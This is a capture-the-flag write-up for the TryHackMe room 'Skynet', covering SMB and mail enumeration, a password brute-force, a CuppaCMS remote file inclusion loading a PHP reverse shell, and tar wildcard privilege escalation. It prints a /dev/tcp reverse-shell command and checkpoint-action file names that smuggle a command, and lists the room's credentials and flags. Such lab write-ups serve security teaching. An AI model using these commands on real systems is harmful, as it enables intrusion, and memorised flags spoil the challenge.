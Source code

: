 ```yaml
---
title: Skynet
date: 2022-09-03 09:45:47 +07:00
modified: 2022-08-02 09:45:47 +07:00
tags: [Skynet, TryHackMe, Writeup, OSCP]
description: Write Up for TryHackMe room Skynet
---
```


# Skynet

![](https://photos.squarezero.dev/file/abir-images/Skynet/logo.jpeg)

Room Name → **Skynet**

Room Link → [https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

Description → A vulnerable Terminator themed Linux machine.

## **Recon**

I start with port scanning and service detection with [AutoRecon]().

Following ports  were found

|Ports|Service
|22| TCP (OpenSSH 7.2p2)
|80| HTTP (Apache httpd 2.4.18)
|110| POP3 (Dovecot pop3d)
|139|Samba (smbd 3.x - 4.x)
|143|imap (Dovecot imapd)
|445|Samba (smbd 4.3.11-Ubuntu)

![](https://photos.squarezero.dev/file/abir-images/Skynet/1.png)

Next, I start enumerating websites using [Feroxbuster]()

`feroxbuster -u [http://10.10.244.66/](http://10.10.244.66/45kra24zxs28v3yd) -r`

![](https://photos.squarezero.dev/file/abir-images/Skynet/2.png)

I found a login page [Squirrelmail]

`http://10.10.244.66/squirrelmail/src/login.php`

![](https://photos.squarezero.dev/file/abir-images/Skynet/3.png)

Then I enumerate SMB with [SMBMAP]()

`smbmap -H 10.10.244.66`

![](https://photos.squarezero.dev/file/abir-images/Skynet/4.png)

## **Exploit**

First I decided to check out SMB to see if it has something useful.
Only “anonymous” had an anonymous share. so I checked it out.

![](https://photos.squarezero.dev/file/abir-images/Skynet/5.png)

Inside I found a “attention.txt” and a log folder containing 3 text files.

![](https://photos.squarezero.dev/file/abir-images/Skynet/6.png)

![](https://photos.squarezero.dev/file/abir-images/Skynet/7.png)

The password for SMB has been reset. Also in the log1.txt I found potential passwords.

 ![](https://photos.squarezero.dev/file/abir-images/Skynet/8.png)

I decided to brute-force mail login page using username → “milesdyson” and log1.txt as passwords. 

![](https://photos.squarezero.dev/file/abir-images/Skynet/9.png)

I logged in with “cyborg007haloterminator” and inside I found out the new password → `)s{A&2Z=F^n_E.B``

![](https://photos.squarezero.dev/file/abir-images/Skynet/10.png)

I logged in to SMB using the new password.  

![](https://photos.squarezero.dev/file/abir-images/Skynet/11.png)

I found important.txt.

![](https://photos.squarezero.dev/file/abir-images/Skynet/12.png)

The note mentions a hidden directory `/45kra24zxs28v3yd`

![](https://photos.squarezero.dev/file/abir-images/Skynet/13.png)

## **More E**numeration

I check out the source code of the page but didn’t find anything interesting. 

Also, I checked out the picture to see if there was any useful metadata. Still nothing interesting.

Next, I decided to find hidden directories. 

![](https://photos.squarezero.dev/file/abir-images/Skynet/14.png)

I found another login page → `http://10.10.244.66/45kra24zxs28v3yd/administrator/`

![](https://photos.squarezero.dev/file/abir-images/Skynet/15.png)

## **More Exploitation**

After looking for a little bit I found an exploit for CuppaCMS in [exploit-DB](https://www.exploit-db.com/exploits/25971)

![](https://photos.squarezero.dev/file/abir-images/Skynet/16.png)

It is a local File Inclusion exploit where I can run my reverse shell. 

I download a PHP reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) and changed the host and port number.

![](https://photos.squarezero.dev/file/abir-images/Skynet/17.png)

Then I opened a python server and start a Netcat listening.

`python3 -m http.server 80`

`nc -lnvp 4444`

I executed LFI and got a shell

`10.10.244.66/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.13.19.204:80/shell.php`

![](https://photos.squarezero.dev/file/abir-images/Skynet/18.png)

I got the user flag

![](https://photos.squarezero.dev/file/abir-images/Skynet/19.png)

## **Privilege Escalation**

Time to get the root flag. I start by making the shell stable using python

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

![](https://photos.squarezero.dev/file/abir-images/Skynet/20.png)

I run Linpeas to find possible vulnerabilities to get the root.

![](https://photos.squarezero.dev/file/abir-images/Skynet/21.png)

After looking for sometimes I found a cronjob that runs as root every min

![](https://photos.squarezero.dev/file/abir-images/Skynet/22.png)

Upon checking the code I found the following

```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

I found this article exploiting tar wildcards → [TarWildcard](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

Tar has two options 

**–checkpoint[=NUMBER]** show progress messages for every Numbers record (default 10)

**–checkpoint-action=ACTION** execute ACTION on each checkpoint

This will help get access to root

```bash
I used the following commands
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.13.19.204/4445 0>&1' > /var/www/html/shell
$ chmod +x /var/www/html/shell
$ touch /var/www/html/--checkpoint=1
$ touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

Then I started a Netcat session and wait for the cronjob to work. 

Now I am Root

![](https://photos.squarezero.dev/file/abir-images/Skynet/23.png)

I got the root flag! 

![](https://photos.squarezero.dev/file/abir-images/Skynet/24.png)

***Q1. What is Miles password for his emails?***

***A. cyborg007haloterminator***

***Q2. What is the hidden directory?***

***A. /45kra24zxs28v3yd***

***Q3. What is the vulnerability called when you can include a remote file for malicious purposes?***

***A. remote file inclusion***

***Q4. What is the user flag?***

***A. 7ce5c2109a40f958099283600a9ae807***

***Q5. What is the root flag?***

***A. 3f0372db24753accc7179a282cd6a949***